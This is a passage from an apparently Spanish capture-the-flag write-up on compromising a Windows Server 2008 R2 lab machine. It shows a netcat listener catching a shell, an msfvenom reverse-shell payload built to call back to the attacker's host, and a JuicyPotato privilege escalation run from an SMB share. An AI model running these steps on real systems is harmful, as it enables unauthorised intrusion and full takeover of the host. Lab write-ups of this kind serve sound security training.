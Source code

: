 Obtenemos la shell:

```bash
└─$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.140] 49161
Microsoft Windows [Versi?n 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

c:\windows\system32\inetsrv>
```

# Escalada de privilegios

Ahora nos queda obtener privilegios de administrador. Para ello, como hemos visto antes, nos aprovechamos de los privilegios del usuario. En [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) vemos las diferentes posibilidades que tenemos. Yo voy a usar [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato) para la escalada.

Descargamos [JuicyPotato](https://objects.githubusercontent.com/github-production-release-asset-2e65be/142582717/538c8db8-9c94-11e8-84e5-46a5d9473358?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20240621%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240621T172808Z&X-Amz-Expires=300&X-Amz-Signature=cc316de6c04358d3f93c007d7c6ca6e16edc972949549ffce1471cc4526e01e0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=142582717&response-content-disposition=attachment%3B%20filename%3DJuicyPotato.exe&response-content-type=application%2Foctet-stream) :

```bash
$ wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Creamos una shell reversa para windows con `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.5 LPORT=8889 -f exe -o shell.exe
```

Nos ponemos a la escucha:

```bash
$ nc -nlvp 8889
listening on [any] 8889 ...

```

Y ejecutamos: 

```bash
c:\windows\system32\inetsrv>\\10.0.2.5\kali\JuicyPotato.exe -l 443 -t * -p \\10.0.2.5\kali\shell.exe
\\10.0.2.5\kali\JuicyPotato.exe -l 443 -t * -p \\10.0.2.5\kali\shell.exe
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 443
COM -> recv failed with error: 10038
```

Vemos que da error y si buscamos el error encontramos que es debido a que el CLSID que proporciona por defecto JuicyPotato no es valido. Los CLSID para los diferentes Windows podemos encontrar en el siguiente link [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/)
